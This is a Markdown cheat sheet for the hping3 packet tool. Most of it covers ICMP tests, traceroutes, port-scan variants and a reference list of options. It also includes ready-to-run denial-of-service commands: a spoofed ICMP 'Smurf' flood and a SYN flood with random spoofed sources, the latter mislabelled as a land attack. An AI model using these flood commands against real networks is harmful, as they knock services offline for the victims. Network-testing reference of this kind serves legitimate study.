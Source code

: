 # Test with Hping3

- Testing ICMP:

`hping3 -1 test.com`

- Traceroute using ICMP: 

`hping3 --traceroute -V -1 test.com`

- Checking port: 

`hping3 -V -S -p 80 -s 5050 test.com`

- Traceroute to a determined port: 

`hping3 --traceroute -V -S -p 80 -s 5050 test.com`

- Other types of ICMP: 

`hping3 -c 1 -V -1 -C 17 test.com`

- Other types of Port Scanning: 

`hping3 -c 1 -V -p 80 -s 5050 -F test.com`

- Ack Scan: 

`hping3 -c 1 -V -p 80 -s 5050 -A test.com`

- Xmas Scan: 

`hping3 -c 1 -V -p 80 -s 5050 -M 0 -UPF test.com`

- Null Scan: 

`hping3 -c 1 -V -p 80 -s 5050 -Y test.com`

- Smurf Attack: 

`hping3 -1 --flood -a VICTIM_IP BROADCAST_ADDRESS`

- DOS Land Attack:

`hping3 -V -c 1000000 -d 120 -S -w 64 -p 445 -s 445 --flood --rand-source VICTIM_IP`
`--flood: sent packets as fast as possible. Don't show replies.`
`--rand-dest: random destionation address mode. see the man.`
`-V <-- Verbose`
`-c --count: packet count`
`-d --data: data size`
`-S --syn: set SYN flag`
`-w --win: winsize (default 64)`
`-p --destport [+][+]<port> destination port(default 0) ctrl+z inc/dec`
`-s --baseport: base source port (default random)`

# Hping3 how to use:

### usage: hping3 host [options]
- `-h` --help show this help
- `-v` --version show version
- `-c` --count packet count
- `-i` --interval wait (uX for X microseconds, for example -i u1000)
- `--fast` alias for -i u10000 (10 packets for second)
- `--faster` alias for -i u1000 (100 packets for second)
- `--flood` sent packets as fast as possible. Don't show replies.
- `-n` --numeric numeric output
- `-q` --quiet quiet
- `-I` --interface interface name (otherwise default routing interface)
- `-V` --verbose verbose mode
- `-D` --debug debugging info
- `-z` --bind bind ctrl+z to ttl (default to dst port)
- `-Z` --unbind unbind ctrl+z
- `--beep` beep for every matching packet received

### Mode (default mode TCP)
- `-0 --rawip` RAW IP mode
- `-1 --icmp` ICMP mode
- `-2 --udp` UDP mode
- `-8 --scan` SCAN mode.
- `-9 --listen` listen mode

### IP
- `-a --spoof` spoof source address
- `--rand-dest` random destionation address mode. see the man.
- `--rand-source` random source address mode. see the man.
- `-t --ttl` ttl (default 64)
- `-N --id` id (default random)
- `-W --winid` use win* id byte ordering
- `-r --rel` relativize id field (to estimate host traffic)
- `-f --frag` split packets in more frag. (may pass weak acl)
- `-x --morefrag` set more fragments flag
- `-y --dontfrag` set dont fragment flag
- `-g --fragoff` set the fragment offset
- `-m --mtu` set virtual mtu, implies --frag if packet size > mtu
- `-o --tos` type of service (default 0x00), try --tos help
- `-G --rroute` includes RECORD_ROUTE option and display the route buffer
- `--lsrr` loose source routing and record route
- `--ssrr` strict source routing and record route
- `-H --ipproto` set the IP protocol field, only in RAW IP mode


### ICMP
- `-C --icmptype` icmp type (default echo request)
- `-K --icmpcode` icmp code (default 0)
- `--force-icmp` send all icmp types (default send only supported types)
- `--icmp-gw` set gateway address for ICMP redirect (default 0.0.0.0)
- `--icmp-ts` Alias for --icmp --icmptype 13 (ICMP timestamp)
- `--icmp-addr` Alias for --icmp --icmptype 17 (ICMP address subnet mask)
- `--icmp-help` display help for others icmp options


### UDP/TCP
- `-s --baseport` base source port (default random)
- `-p --destport` [+][+]<port> destination port(default 0) ctrl+z inc/dec
- `-k --keep` keep still source port
- `-w --win` winsize (default 64)
- `-O --tcpoff` set fake tcp data offset (instead of tcphdrlen / 4)
- `-Q --seqnum` shows only tcp sequence number
- `-b --badcksum` (try to) send packets with a bad IP checksum many systems will fix the IP checksum sending the packet so you'll get bad UDP/TCP checksum instead.
- `-M --setseq` set TCP sequence number
- `-L --setack` set TCP ack
- `-F --fin` set FIN flag
- `-S --syn` set SYN flag
- `-R --rst` set RST flag
- `-P --push` set PUSH flag
- `-A --ack` set ACK flag
- `-U --urg` set URG flag
- `-X --xmas` set X unused flag (0x40)
- `-Y --ymas` set Y unused flag (0x80)
- `--tcpexitcode` use last tcp->th_flags as exit code
- `--tcp-timestamp` enable the TCP timestamp option to guess the HZ/uptime


### Common
- `-d --data` data size (default is 0)
- `-E --file` data from file
- `-e --sign` add 'signature'
- `-j --dump` dump packets in hex
- `-J --print` dump printable characters
- `-B --safe` enable 'safe' protocol
- `-u --end` tell you when --file reached EOF and prevent rewind
- `-T --traceroute` traceroute mode (implies --bind and --ttl 1)
- `--tr-stop` Exit when receive the first not ICMP in traceroute mode
- `--tr-keep-ttl` Keep the source TTL fixed, useful to monitor just one hop
- `--tr-no-rtt` Don't calculate/show RTT information in traceroute mode


### ARS packet description
- `--apd-send` Send the packet described with APD
